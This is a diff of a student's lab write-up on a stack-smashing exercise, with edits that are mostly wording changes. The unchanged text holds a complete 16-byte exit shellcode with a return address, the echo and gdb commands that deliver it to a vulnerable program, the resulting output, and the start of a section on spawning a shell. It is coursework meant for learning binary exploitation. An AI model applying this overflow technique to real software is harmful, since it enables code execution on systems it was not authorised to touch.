

Before and after one commit to MingoMango17/CMSC134-Writeups, a Markdown page: Machine_Problem_1/writeup.md, 2 parts joined by grey strips. Shown at 89% size. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/Machine_Problem_1/writeup.md
+++ b/Machine_Problem_1/writeup.md
@@ -196,9 +196,9 @@ Which is just 7 bytes long.
 
 ## Methodology
 
-The exit shellcode is 7 bytes long small enough to fit inside the buffer's size.
-The memory address location of the `buffer` can be used as the return address where the shellcode will be stored.
-The next stack after buffer is the base pointer (EBP), after the base pointer is the return address of the `vuln` function that will be modified to point to the memory address of the `buffer`.
+The exit shellcode is 7 bytes long, small enough to fit inside the buffer, which has a size of 8 bytes.
+The memory address location of the `buffer` will be used as the return address, as it is where the shellcode will be stored.
+The next stack after `buffer` is the base pointer (EBP), and after the base pointer is the return address of the `vuln` function, which will be modified to point to the memory address of the `buffer`.
 
 With this, an exploit can be crafted to terminate the program with the desired exit status code of `1`.
 
@@ -397,7 +396,7 @@ Next is to add the memory address of the `buffer`.
 ```
 
 Thus, the final shellcode is `\x31\xc0\x40\x89\xc3\xcd\x80\x90\x90\x90\x90\x90\x18\xcd\xff\xff`.
-We can store the shellcode to our `egg`
+We can store the shellcode to our `egg`:
 
 ```sh
 $ echo -ne "\x31\xc0\x40\x89\xc3\xcd\x80\x90\x90\x90\x90\x90\x18\xcd\xff\xff" > egg
@@ -405,7 +404,7 @@ $ echo -ne "\x31\xc0\x40\x89\xc3\xcd\x80\x90\x90\x90\x90\x90\x18\xcd\xff\xff" >
 
 ## Documentation of Proofs
 
-To execute the exploit, run
+To execute the exploit, run:
 
 ```
 (gdb) run < egg
@@ -417,7 +416,7 @@ or
 (gdb) run <<< $(echo -ne "\x31\xc0\x40\x89\xc3\xcd\x80\x90\x90\x90\x90\x90\x18\xcd\xff\xff")
 ```
 
-Which should successfully terminate the program with desired exit status
+Which should successfully terminate the program with desired exit status:
 
 ```
 [Inferior 1 (process 1075597) exited with code 01]
@@ -427,8 +426,7 @@ Which should successfully terminate the program with desired exit status
 
 ## Conclusion
 
-Stack smashing is an archaic method of binary exploitation that modern computers have protections against it.
-Thanks to Address Space Layout Randomization (ASLR) that modern operating systems are equipped with, it would be very difficult to execute this exploit.
+Stack smashing is an archaic method of binary exploitation and past computers are vulnerable against this type of exploitation. However, thanks to the  Address Space Layout Randomization (ASLR) that modern operating systems are equipped with, it would be very difficult to execute this exploit in the current times.
 Nonetheless, this is a fun exercise and we have learned a lot from it.
 
 Solution files can be found here:
@@ -442,17 +440,19 @@ Solution files can be found here:
 
 ## Acknowledgement and References
 
-- [LiveOverflow](https://www.youtube.com/@LiveOverflow) for usage of GDB
-- [Phrack Volume 7 Issue 49: Smashing The Stack For Fun And Profit](http://phrack.org/issues/49/14.html) for teaching us on smashing the stack
-- [Practical Binary Analysis](https://practicalbinaryanalysis.com/) for teaching assembly and basics of ELF
-- [Shell-Storm](https://shell-storm.org/shellcode/index.html) for providing shellcodes
+- [LiveOverflow](https://www.youtube.com/@LiveOverflow) for usage of GDB.
+- [Phrack Volume 7 Issue 49: Smashing The Stack For Fun And Profit](http://phrack.org/issues/49/14.html) for teaching us on smashing the stack.
+- [Practical Binary Analysis](https://practicalbinaryanalysis.com/) for teaching assembly and basics of ELF.
+- [Shell-Storm](https://shell-storm.org/shellcode/index.html) for providing shellcodes.
 
 ## Extra
 
 ### Return Me Shell!
 
 Writing a shellcode for exit status is quite boring.
+
 Why don't we pop a shell instead?
+
 Since it's annoying to use `echo` to generate our shellcode, we will be using our handy scripting language... Python!
 
 To pop a shell, we need a shellcode for it.
````
Also changed, not shown: other parts of Machine_Problem_1/writeup.md (+32 -33 lines).
